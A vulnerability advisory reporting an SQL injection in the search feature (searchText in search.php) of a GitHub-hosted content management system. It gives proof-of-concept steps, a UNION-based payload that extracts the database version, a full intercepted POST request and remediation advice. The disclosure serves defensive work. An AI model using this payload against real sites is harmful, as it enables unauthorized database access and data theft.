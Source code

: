 #### Authenticated SQL Injection in Content_Management_System

```
Vendor: github
Product: Content_Management_System
Product URL: https://github.com/mandlik05dheeraj/Content_Management_Tool/tree/main/Content_Management_System
```

##### **Executive Summary** 

A search-based SQL injection vulnerability in the Content_Management_System, hosted on GitHub, allows an attacker to manipulate SQL queries by injecting malicious SQL code into the search functionality. This vulnerability is present in all versions of the system available up to the current repository state as detailed in the product URL. Exploiting this vulnerability could allow unauthorized access to the database through the search feature, enabling the attacker to view, modify, or delete information, potentially leading to a complete compromise of the system's integrity and availability.

```
Vulnerability Name: SQL injection in searchText
Severity: High
Affected URL: http://localhost/search.php
Affected Parameter: searchText
HTTP Method: POST
```

##### **Issue Description**

The web application is vulnerable to SQL injection in the "searchText" input field. An attacker can exploit this vulnerability by inputting malicious SQL code in the HTTP POST request to manipulate the search functionality. In the provided example, the attacker modifies the "searchText" parameter to insert a malicious SQL code that could lead to unauthorized database access. This exploitation can allow viewing, modifying, or deleting database information, potentially compromising the system's integrity and availability. 

##### **Proof Of Concept**

1. **Set Up a Proxy:** First, configure a web proxy in your browser to intercept HTTP requests. Tools like Burp Suite or OWASP ZAP can be used for this purpose.
2. **Navigate and Intercept:** Access the vulnerable web application by navigating to `http://192.168.150.131/search.php`. Ensure you are on the page that utilizes the `searchText` input field for querying database entries.

![image-20240429173027815](/Content_Management_System/screenshot/image-20240429173027815.png)

1. **Intercept the Request:** Use the web proxy to capture the HTTP POST request made when a search query is submitted. The initial request will look like a standard search, typically with benign input in the `searchText` field.
2. **Modify the Payload:** In the intercepted request, modify the `searchText` parameter to include the SQL injection payload: `searchText=-1' union all select 1,2,CONCAT(0x7e,(version()),0x7e),3,4,5,6,7,8,9#`. This payload is designed to execute a union SQL query that retrieves the database version, among other dummy values, to demonstrate the ability to inject SQL commands.
3. **Send the Malicious Request and Observe the Outcome:** After modifying the request with the SQL injection payload, forward the request through your proxy. Monitor the response from the server to this modified request. If the SQL injection is successful, the server's response will include the database version wrapped between tilde characters (`~`).

![image-20240430100142316](/Content_Management_System/screenshot/image-20240430100142316.png)

![image-20240429173101460](/Content_Management_System/screenshot/image-20240429173101460.png)

**Payload:**

`searchText=-1' union all select 1,2,CONCAT(0x7e,(version()),0x7e),3,4,5,6,7,8,9#`

**Request:**

```
POST /search.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 129
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/search.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: cms_username=null; cms_email=null; cms_PID=1
Connection: close

searchText=-1%27+union+all+select+1%2C2%2CCONCAT%280x7e%2C%28version%28%29%29%2C0x7e%29%2C3%2C4%2C5%2C6%2C7%2C8%2C9%23&searchBtn=
```

**searchText parameter in search.php:**
It can be found from the code that after obtaining the post request, the author did not filter it, and passing parameters to sql resulted in sql injection.

![image-20240430094445392](/Content_Management_System/screenshot/image-20240430094445392.png)

##### Impact:

SQL injection attacks can have devastating consequences, including unauthorized database access, data theft, database corruption, and even complete system compromise. Attackers can use SQL injection to bypass authentication, retrieve sensitive information, alter or delete data, and execute administrative operations on the database. 

Remediation:

To prevent SQL injection vulnerabilities, it is essential to use parameterized queries or prepared statements to ensure that SQL commands are securely executed. Employing server-side validation to check user inputs against expected formats can further mitigate risks. 

##### References:

https://owasp.org/www-community/attacks/SQL_Injection

